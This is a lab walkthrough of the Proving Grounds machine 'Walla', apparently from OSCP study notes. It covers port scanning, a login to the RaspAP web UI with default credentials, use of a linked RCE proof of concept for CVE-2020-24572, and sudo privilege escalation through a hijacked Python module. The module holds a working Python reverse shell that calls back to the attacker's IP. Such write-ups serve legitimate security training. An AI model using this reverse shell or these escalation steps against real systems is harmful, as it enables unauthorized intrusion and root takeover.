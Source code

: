 #### Enumeration

##### Nmap

```
# Nmap 7.91 scan initiated Fri Jul  2 09:04:26 2021 as: nmap -Pn -p- -sC -sV -T4 -oN Walla.nmap 192.168.229.97
Nmap scan report for 192.168.229.97
Host is up (0.21s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 09:26:35 2021 -- 1 IP address (1 host up) scanned in 1329.58 seconds
```

Connect to http service on 8091 port.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_00h38m46s_001_.png)

Notice the RaspAp that is a wireless router software. Login to the WebUI with the default credential username `admin` and password `secret` successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_01h03m31s_002_.png)

In the about page, we know that the version is `2.5`.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_01h06m13s_003_.png)

There is a remote command execution vulnerability [CVE-2020-24572](https://github.com/gerbsec/CVE-2020-24572-POC) can use to obtain an interactive shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_19h04m45s_001_.png)

Get the local.txt.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_19h05m42s_002_.png)

#### Privilege Escalation

Use command `sudo -l` to list available permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_19h22m05s_003_.png)

Notice the `wifi_reset.py` import the `wificontroller.py`. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_19h22m39s_004_.png)

We can set up a `wificontroller.py` file, which contains the reverse shell content, to make `wifi_reset.py` call.

```
#!/usr/bin/env python
import os
import sys
try:
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.140\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'")
except:
        print 'ERROR...'
sys.exit(0)
```

After create `wificontroller.py` file in the `/home/walter` folder. Execute the command `sudo /usr/bin/python /home/walter/wifi_reset.py`.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_20h03m18s_005_.png)

Get a shell back with root permisson.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Walla/Walla_2021.07.10_20h03m58s_006_.png)
